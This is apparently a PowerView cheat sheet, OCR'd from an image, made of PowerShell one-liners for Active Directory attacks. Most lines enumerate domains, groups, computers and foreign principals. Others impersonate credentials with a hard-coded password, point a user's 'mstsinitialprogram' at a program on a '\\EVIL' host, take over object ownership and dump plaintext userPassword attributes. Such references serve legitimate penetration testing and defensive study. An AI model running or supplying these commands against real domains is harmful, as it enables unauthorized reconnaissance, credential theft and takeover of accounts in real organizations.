 ```powershell
Get-DomainComputer -SearchBase "ldap://OU=..."

# enumerate all gobal catalogs in the forest
Get-ForestGlobalCatalog

# turn a list of computer short names to FQDNs, using a global catalog
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname}

# save a PowerView object to disk for later usage
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml

# enumerate all groups in a domain that don't have a global scope, returning just group names
Get-DomainGroup -GroupScope NotGlobal -Properties name

# enumerate all foreign users in the global catalog, and query the specified domain localgroups for their memberships
#   query the global catalog for foreign security principals with domain-based SIDs, and extract out all distinguishednames
$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://<Domain>.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    # extract the domain the foreign user was added to
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    # check if we've already enumerated this domain
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        # enumerate all domain local groups from the given domain that have membership set with our foreignSecurityPrincipal set
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y

# check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```